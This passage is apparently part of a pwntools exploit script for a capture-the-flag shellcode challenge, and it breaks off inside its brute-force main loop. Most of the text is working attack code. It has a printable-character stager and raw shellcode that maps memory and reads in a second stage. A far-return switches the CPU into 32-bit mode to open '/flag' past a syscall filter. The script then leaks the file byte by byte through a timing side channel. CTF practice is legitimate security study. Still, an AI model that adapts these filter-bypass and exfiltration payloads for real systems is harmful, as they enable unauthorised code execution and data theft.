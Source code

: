 ```plain
        add rsi,0x13
        add rsi,r10
        push rsi
        retf

        mov esp,0x40000400
        push 0x0067
        push 0x616c662f
        mov ebx,esp
        xor ecx,ecx
        mov edx,0x7
        mov eax,0x5
        int 0x80

        push 0x33
        push 0x40000037
        retf

        mov rdi,rax
        mov rsi,0x40000500
        mov rdx,0x80
        xor rax,rax
        syscall

        push 0
        cmp byte ptr[rsi+{0}],{1}
        jz $-4
        ret 
    '''.format(a,b)
    # shellcode1 = toPrintable(shellcode1)
    # shellcode2 = asm(shellcode2,arch='amd64')
    # shellcode3 = asm(shellcode3,arch='amd64')
    # print "".join("\\x%02x"%ord(_) for _ in asm(shellcode,arch='amd64'))
    shellcode1 = "Sh0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M144x8n0R094y4l0p0S0x188K055M4z0x0A3r054q4z0q2H0p0z402Z002l8K4X00"
    shellcode2 = "\x48\xc7\xc7\x00\x00\x00\x40\x48\xc7\xc6\x00\x10\x00\x00\x48\xc7\xc2\x07\x00\x00\x00\x49\xc7\xc2\x22\x00\x00\x00\x49\xb8\xff\xff\xff\xff\x00\x00\x00\x00\x4d\x31\xc9\x48\xc7\xc0\x09\x00\x00\x00\x0f\x05\x48\x89\xfe\x48\x31\xff\x48\xc7\xc2\x00\x10\x00\x00\x48\x31\xc0\x0f\x05\xff\xe6"
    shellcode3 = "\x49\xba\x00\x00\x00\x00\x23\x00\x00\x00\x48\x83\xc6\x13\x4c\x01\xd6\x56\xcb\xbc\x00\x04\x00\x40\x6a\x67\x68\x2f\x66\x6c\x61\x89\xe3\x31\xc9\xba\x07\x00\x00\x00\xb8\x05\x00\x00\x00\xcd\x80\x6a\x33\x68\x37\x00\x00\x40\xcb\x48\x89\xc7\x48\xc7\xc6\x00\x05\x00\x40\x48\xc7\xc2\x80\x00\x00\x00\x48\x31\xc0\x0f\x05\x6a\x00"
    shellcode3 += asm('cmp byte ptr[rsi+{0}],{1};jz $-3;ret'.format(a,b) if a == 0 else 'cmp byte ptr[rsi+{0}],{1};jz $-4;ret'.format(a,b),arch='amd64')
    p.sendline(shellcode1)
    p.sendline(shellcode2)
    # raw_input()
    p.sendline(shellcode3)
    try:
        p.recv(timeout = 2)
    except:
        p.close()
        return 0
    else:
        return 1
def main():
    flag = [" " for _ in range(0x30)]
    for i in range(0,100):
        # for char in "{}1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ":
        for char in range(0x20,0x7e+1):
            # char = ord(char)
            p = process("./shellcode")
            if exp(p,i,char):
```